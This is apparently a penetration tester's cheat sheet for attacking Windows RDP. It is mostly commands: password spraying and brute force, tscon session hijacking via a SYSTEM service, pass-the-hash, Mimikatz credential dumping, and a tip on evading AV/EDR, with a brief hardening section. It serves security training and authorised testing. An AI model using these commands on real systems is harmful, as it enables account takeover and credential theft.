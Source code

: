 # RDP

## Summary
Credential theft (via Mimikatz), Pass‑the‑Hash (PtH), and session hijacking. RDP also has historic remote code execution vulnerabilities (e.g., BlueKeep CVE‑2019‑0708) — always check patch levels and exposure.

---

## Discovery & Enumeration
- Scan for RDP (default port 3389) and non-standard ports:
```bash
nmap -sV -p3389 --script rdp-enum-encryption,rdesktop-brute <target>
```
- `rdpscan`/`rdpy` can fingerprint RDP versions and enforce detection.
- Check for NLA (Network Level Authentication) — presence increases difficulty for simple brute-force.

**Quick check for NLA with xfreerdp**:
```bash
xfreerdp /v:<ip> /u:invaliduser /cert-ignore
# if prompts for credentials earlier, NLA is enabled
```

---

## Password Spraying & Brute-force
- Prefer password spraying (one password across many accounts) to avoid lockouts.
- Tools: Crowbar (rdp module), Hydra, CrackMapExec (rdp), Ncrack (rdp)

```bash
# Crowbar spraying (single password)
crowbar -b rdp -s 192.168.220.0/24 -U users.txt -c 'Summer2024!'

# Hydra
hydra -L users.txt -p 'Password123!' <ip> rdp

# CrackMapExec (RDP module)
crackmapexec smb <target> -u users.txt -p 'Password123!' --rdp
```

Notes:
- Respect account lockout thresholds and timing — spray slowly.
- Check for exposed RDP-over-HTTP/alternate ports.

---

## Accessing RDP from Linux
- `rdesktop` (old but handy):
```bash
rdesktop -u Administrator -p 'Passw0rd' <ip>
```
- `xfreerdp` (recommended):
```bash
xfreerdp /v:<ip> /u:Administrator /p:'Passw0rd' /cert-ignore
```
- For GUI-less shells use `smb` or `winrm` if available.

---

## Session Hijacking
If you can run commands on a host with sufficient privileges (or create a service), you can hijack active RDP sessions using `tscon`.

**View sessions**:
```powershell
query user
```

**Hijack a session (requires SYSTEM or admin priv):**
```cmd
# from SYSTEM
tscon <TARGET_SESSION_ID> /dest:<OUR_SESSION_NAME>

# Or create a service that runs tscon as SYSTEM
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```

**Note:** creating services requires elevated privileges — use psexec, Meterpreter (getsystem), or scheduled tasks as escalation vectors.

---

## Pass‑the‑Hash & NTLM Relaying
- If you have NTLM hashes, you can authenticate without plaintext passwords using PtH to RDP (xfreerdp `/pth` flag) or via Impacket tools (`wmiexec.py`, `psexec.py`).

```bash
# xfreerdp PtH
xfreerdp /v:<ip> /u:Administrator /pth:NTLM_HASH /cert-ignore

# Impacket example
python3 /usr/share/doc/impacket/examples/psexec.py DOMAIN/Administrator@<target> -hashes :NTLM_HASH
```

**Registry tweak for Restricted Admin mode errors** (if encountering Restricted Admin restrictions):
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

---

## Post‑Access Techniques
- Use Mimikatz to extract plaintext credentials / NTLM hashes from memory (requires SYSTEM or debug privileges).
- Dump credentials and try lateral RDP to other hosts.
- Enable `winrm` for scripted lateral movement if allowed in scope.

**Mimikatz basics (on-windows)**:
```powershell
# as admin
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

**Note:** some AV/EDR will detect Mimikatz — consider in-memory execution or off-host memory dumps.

---

## Vulnerabilities & CVEs
- CVE‑2019‑0708 (BlueKeep) — pre-RDP 8.1/2012/2016 unpatched systems
- Monitor MSRC and patching state; remote code execution vulnerabilities are rare but severe.

---

## Detection & Hardening Notes (for reporting)
- NLA should be enabled to prevent unauthenticated RDP handshakes.
- Enforce account lockout policies and MFA for remote access.
- Restrict RDP exposure via VPN or jump boxes; log and alert on failed authentication and new source IPs.
- Disable cached credentials where possible and limit local admin accounts.

---

## Quick Cheatsheet
```bash
# Scan
nmap -p3389 --script rdp-enum-encryption -Pn <target>

# Bruteforce (slow spray)
crowbar -b rdp -s <target>/32 -U users.txt -c 'Autumn2024!'

# RDP connect
xfreerdp /v:<ip> /u:Administrator /p:'P@ssw0rd' /cert-ignore

# PtH
xfreerdp /v:<ip> /u:Administrator /pth:NTLM_HASH /cert-ignore
```

